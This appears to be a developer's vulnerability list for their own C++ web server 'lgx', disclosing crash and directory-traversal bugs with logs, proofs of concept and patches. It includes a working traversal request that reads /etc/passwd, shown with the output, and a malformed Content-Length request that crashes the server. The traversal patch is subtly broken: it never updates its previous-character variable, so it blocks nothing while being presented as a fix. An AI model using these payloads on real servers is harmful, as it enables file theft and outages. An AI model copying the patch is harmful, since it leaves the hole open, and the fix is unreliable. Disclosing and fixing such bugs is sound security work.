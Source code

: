 # LGX CVE LIST



### VULN-2020-1003 

#### Intro

Frequent disconnection, multi thread competition, log module write to memory at the same time, resulting in memory error, server crash

```
Open file [www//cssfont_1429596_nzgqgvnmkjb.css] failed!
recv 0 DISCONNECTING
Open file [www//js/gitalk.min.css] failed!
terminate called after throwing an instance of 'std::bad_alloc'
  what():  std::bad_alloc
[1]    37779 abort      sudo ./lgx -r


...
Open file [www/js/photoswipe-ui-default.min.js] failed!
terminate called after throwing an instance of 'std::length_error'
  what():  basic_string::_M_create
  
 
...
Open file [www/cssfont_1429596_nzgqgvnmkjb.css] failed!
[1]    44529 segmentation fault  sudo ./lgx -r
```

#### fixed

Synchronization log module



## VULN-2020-1017

### Intro

Malicious forgery of HTTP protocol leads to the Server HTTP protocol parsing error, causing the server to crash. The cause of the crash is being found

Victim website: http://i0gan.cn 

Attacker address: TaiWan

```log
connected: ip: 47.101.34.11448168
2020-10-17 02:39:47
request: get
2020-10-17 03:21:52
connected: ip: 122.117.46.24142784
2020-10-17 03:21:52
ERROR_PARSING_URL:
2020-10-17 03:24:09
connected: ip: 59.126.74.10433939
2020-10-17 03:24:09
ERROR_PARSING_URL:
2020-10-17 03:24:09
ERROR_PARSING_URL:
2020-10-17 03:24:09
ERROR_PARSING_URL:
2020-10-17 03:24:09
ERROR_PARSING_URL:
......
......
request:
2020-10-17 03:25:08
ERROR_PARSING_URL:
2020-10-17 03:25:08
ERROR_PARSING_URL:
2020-10-17 03:25:08
ERROR_PARSING_URL:
2020-10-17 03:25:08
ERROR_PARSING_URL:
2020-10-17 03:25:08
ERROR_PARSING_URL:
```

This attack just take a one minute then make the lgx server break down.



## VULN-2020-1125

### Intro

In the AXB 2020 CTF competition, the framework of the server is used to make a pwn challenge. However, the contestants give an unexpected solution. Directory traversal vulnerability can cause any sensitive file to be leaked. This vulnerability is also the vulnerability of lgx server at present.

poc

```
┌[logan☮arch]-(~)
└> curl -i "http://i0gan.cn/..%2f..%2f..%2f../etc/passwd"
HTTP/1.1 200 OK
Content-Length: 1902
Access-Control-Allow-Origin: *
Connection: keep-alive
Content-Type: obj
Keep-Alive: timeout=4
Proxy-Connection: keep-alive
Server: lgx-linux1.6

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin

```

### patch

Add a check_file_name function to check traversal vulnerability.

```c++
bool lgx::net::http::check_file_path(const std::string &file_name) {
    char last_ch = 0;
    for (auto ch : file_name) {
        if(ch == '.')
            if(last_ch == '.')
                return false;
    }
    return true;
}
```


## VULN-2021-04-04

### Intro

If Content-Length value is not integer in http header, that server will crashed!

poc:

```
POST /?request=login? HTTP/1.1
Connection: Keep-Alive
Content-Length: .
```



The vulnerable code in http.cc: 185

```
if(map_header_info_.find("content-length") != map_header_info_.end()) {
	content_length_ = std::stoi(map_header_info_["content-length"]);
 }
```



Patch

```c++

if(map_header_info_.find("content-length") != map_header_info_.end()) {
  	try {
       content_length_ = std::stoi(map_header_info_["content-length"]);
   	} catch (std::invalid_argument) {
  		logger() << log_dbg("content-length is invalid");
   		recv_error_ = true;
    	response_error((int)HttpResponseCode::BAD_REQUEST, "Bad Request");
    }
}
```
